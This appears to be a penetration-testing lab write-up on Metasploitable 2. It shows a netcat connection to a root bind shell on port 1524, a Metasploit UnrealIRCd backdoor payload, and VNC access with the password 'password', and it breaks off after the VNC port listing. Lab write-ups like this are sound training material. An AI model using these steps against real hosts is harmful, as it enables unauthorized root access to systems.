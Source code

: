 ***

## Exploitation

### 1. Gain root access using Netcat
**Vulnerability:** Bind Shell Backdoor Detection
- A shell is listening on the remote port without any authentication being required

**Information:**<br>
The IP of the target: `192.168.179.134` <br>
The port of open shell (obtained from nmap): `1524` 

```
1524/tcp  open  bindshell   Metasploitable root shell
```

**Exploit:**
```bash
nc 192.168.179.134 1524
```

![](/assets/img/metasploitable2/Pasted image 20220511175156.png)

### 2. Gain access using UnrealIRCd Backdoor | Metasploit
**Vulnerability:** UnrealIRCd Backdoor Detection
- The remote IRC server is a version of UnrealIRCd with a backdoor that allows an attacker to execute arbitrary code on the affected host.

**Information:**

The IP of the target: `192.168.179.134`
```
6667/tcp  open  irc         UnrealIRCd
6697/tcp  open  irc         UnrealIRCd
```
RPORT: `6697`

**Payload:** 
```
2   payload/cmd/unix/bind_ruby      normal  No     Unix Command Shell, Bind TCP (via Ruby)
```

![](/assets/img/metasploitable2/Pasted image 20220511182620.png)

**Exploit:**
![](/assets/img/metasploitable2/Pasted image 20220511182700.png)

### 3.  Gain access using vnc 
**Vulnerability:** VNC Server 'password' Password
- The VNC server running on the remote host is secured with a weak password. Nessus was able to login using VNC authentication and a password of 'password'. A remote, unauthenticated attacker could exploit this to take control of the system.

**Information:**
The IP of the target: `192.168.179.134`
```
5900/tcp  open  vnc         VNC (protocol 3.3)
```
